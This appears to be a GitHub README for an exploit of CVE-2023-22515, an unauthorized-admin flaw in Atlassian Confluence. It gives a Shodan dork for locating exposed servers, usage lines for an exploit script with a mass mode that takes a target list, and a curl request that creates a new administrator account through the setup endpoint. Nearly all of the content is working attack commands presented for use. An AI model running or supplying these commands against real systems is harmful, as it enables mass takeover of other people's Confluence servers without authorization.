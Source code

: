 # CVE-2023-22515

![](https://img.shields.io/static/v1?label=Product&message=Atlassian%20Confluence&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Confluence%20Data%20Center%20and%20Server&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%2010.%20Unauthorized%20Admin%20Access&color=red)

- Shodan dork:
```
http.favicon.hash:-305179312
```

### Install
```
pip install -r requirements.txt
```

### Usage

```
python3 exploit.py normal https://example.com/confluence
```

```
python3 exploit.py mass targets.txt
```
### Curl PoC
```
curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=YourNewAdminLogin&fullName=admin&email=admin@confluence&password=YourNewAdminPass&confirm=YourNewAdminPass&setup-next-button=Next" http://URL/confluence/setup/setupadministrator.action
```
```
Login: YourNewAdminLogin
Pass:  YourNewAdminPass
```
